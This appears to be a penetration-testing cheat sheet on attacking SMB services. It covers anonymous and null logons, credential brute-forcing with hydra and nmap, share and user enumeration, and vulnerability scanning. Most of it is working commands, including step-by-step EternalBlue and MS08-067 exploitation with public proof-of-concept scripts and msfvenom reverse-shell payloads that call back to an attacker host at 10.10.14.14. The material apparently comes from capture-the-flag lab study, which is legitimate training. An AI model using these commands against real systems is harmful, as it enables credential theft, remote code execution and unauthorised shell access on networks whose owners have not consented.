 ```yaml
---
description: Port 445,139
---
```


# SMB

## Theory

The Server Message Block Protocol (SMB Protocol) is a client-server communication protocol used for sharing access to files, printers, serial ports, and data on a network. It can also carry transaction protocols for authenticated inter-process communication.

SMB protocols operate on different ports depending on the type of communication:

* **Port 445 (TCP)**: This port is used for direct SMB communication over TCP/IP, including file and printer sharing, remote administration, and inter-process communication.
* **Port 139 (TCP)**: This port is used for SMB over NetBIOS, which is an underlying protocol that SMB relies on for name resolution and session establishment.

## Practice

### Authentication

{% tabs %}
{% tab title="Null session" %}
`Null session` refers to an unauthenticated session established with an SMB server where the client does not provide any credentials.

```bash
#SmbClient
smbclient -U '' -N -L '\\<IP>\'

#CrackMapExec
crackmapexec smb <IP> -u '' -p '' --shares
```
{% endtab %}

{% tab title="Anonymous logon" %}
The inclusion of `Anonymous` and `Everyone` access group in the `pre-Windows 2000 compatible` access group allow us to make an anonymous connection over SMB. Using a random username and password you can check if the target accepts annonymous/guest logon

```bash
#SmbClient
smbclient -N -L '\\<IP>\'
smbclient -U 'a' -N -L '\\<IP>\'

#CrackMapExec
crackmapexec smb <IP> -u 'a' -p '' --shares
```
{% endtab %}

{% tab title="Bruteforce" %}
Tools like [hydra](https://github.com/vanhauser-thc/thc-hydra) or [nmap](https://github.com/nmap/nmap) can be used to operate authentication bruteforce attacks.

```bash
# hydra
hydra -L usernames.txt -P passwords.txt <IP> -V -f smb

# nmap
nmap --script smb-brute -p 445 <IP>
```
{% endtab %}
{% endtabs %}

### Enumerate

{% tabs %}
{% tab title="nmap" %}
Tools like [nmap](https://github.com/nmap/nmap) can be used to enumerate SMB.

```bash
#list the supported protocols and dialects of a SMB server. 
nmap --script="smb-protocols" -p 445 <IP>

#Determines the message signing configuration
nmap --script="smb-security-mode" -p 445 <IP>

#Try to enum SMB sessions/shares/users/domains/groups... with null/anonymous session
nmap --script="smb-enum*" -p 445 <IP>

#Or enum with a valide session
nmap --script="smb-enum-shares" --script-args smbusername=administrator,smbpassword=mypassword_1 -p 445 <IP>
```
{% endtab %}

{% tab title="CrackMapExec" %}
Tools like [CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec) can be used to enumerate SMB.

```bash
#Enum host with SMB signing not required
crackmapexec 192.168.1.0/24 --gen-relay-list relaylistOutputFilename.txt

#Enum password policy
crackmapexec $IP -u $USER -p $PASS --pass-pol

#Enum domain users
crackmapexec $IP -u $USER -p $PASS --users

#Enum domain groups
crackmapexec $IP -u $USER -p $PASS --groups

#Enum local groups
crackmapexec $IP -u $USER -p $PASS --local-group

#Enum active sessions
crackmapexec $IP -u $USER -p $PASS --sessions

#Enum shares & access
crackmapexec $IP -u $USER -p $PASS --shares
```
{% endtab %}
{% endtabs %}

### Vulnerabilities

You may use nmap to scan target for SMB vulnerabilities

```bash
sudo nmap -p 445 --script="smb-vuln-*" <IP>
```

#### EternalBlue - MS17-010

Eternalblue is a flaw that allows remote attackers to execute arbitrary code on a target system by sending specially crafted messages to the SMBv1 server.

{% tabs %}
{% tab title="Enumerate" %}
Tools like [nmap](https://github.com/nmap/nmap) can be used to detect the presence of the EternalBlue vulnerability.

```bash
sudo nmap -p 445 --script="smb-vuln-ms17-010" <IP>
```
{% endtab %}

{% tab title="Exploit - worawit" %}
To exploit, we may use the Worawit [PoC](https://github.com/worawit/MS17-010) on GitHub

* first, we have to edit `USERNAME` and `PASSWORD` at the begening of the `zzz_exploit.py` script.
* Second, generate a reverse shell

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=9001 EXITFUNC=thread -f exe -a x86 --platform windows -o pwned.exe
```

* Third, we have to edit , he `smb_pwn` function in `zzz_exploit.py`. This is the action taken with the exploit.

```bash
smb_send_file(smbConn, '/home/v4resk/Documents/www/pwned.exe', 'C', '/pwned.exe')
service_exec(conn, r'cmd /c c:\\pwned.exe')
```

* Fourth, trigger the exploit

```bash
#Exploit
python2.7 zzz_exploit.py <IP>

#Exploit on ntsvcs named pipe
python2.7 zzz_exploit.py <IP> ntsvcs
```
{% endtab %}

{% tab title="Exploit - helviojunior" %}
To exploit, we may use the helviojunior [PoC](https://github.com/helviojunior/MS17-010) on GitHub. He forked the worawit repo and added a single `send_and_execute.py`, which is really handy.

* First, we have to edit `USERNAME` and `PASSWORD` at the begening of the `send_and_execute.py` script
* Second, generate a reverse shell

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=9001 EXITFUNC=thread -f exe -a x86 --platform windows -o pwned.exe
```

* Third, trigger the exploit

```bash
#Exploit
python2.7 send_and_execute.py <IP> pwned.exe

#Exploit on ntsvcs named pipe
python2.7 send_and_execute.py <IP> pwned.exe ntsvcs
```
{% endtab %}
{% endtabs %}

#### MS08-067

The MS08-067 vulnerability is a buffer overflow vulnerability in the Windows Server service.The vulnerability could allow remote code execution if an affected system received a specially crafted RPC request. On Microsoft Windows 2000, Windows XP, and Windows Server 2003 systems, an attacker could exploit this vulnerability without authentication to run arbitrary code.

{% tabs %}
{% tab title="Enumerate" %}
Tools like [nmap](https://github.com/nmap/nmap) can be used to to detect the presence of the MS08-067 vulnerability.

```bash
sudo nmap -p 445 --script="smb-vuln-ms08-067" <IP>
```
{% endtab %}

{% tab title="Exploit" %}
To exploit, we may use the jivoi [PoC](https://raw.githubusercontent.com/jivoi/pentest/master/exploit\_win/ms08-067.py) on GitHub.

* First, generate a Python shellcode and utilize it to replace the current one in `ms08-067.py`.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=9001 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows
```

* Second, we have to guess version of windows and language pack. The exploit takes advantage of knowing where some little bits of code will be in memory, and uses those bits on the path to shell.
* Third, trigget the exploit

```bash
#6 is for Windows XP SP3 English (NX)
python ms08-067.py 10.10.10.4 6 445

#4 is for Windows 2003 SP1 English
python ms08-067.py 10.10.10.4 4 445
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://0xdf.gitlab.io/2019/02/21/htb-legacy.html" %}
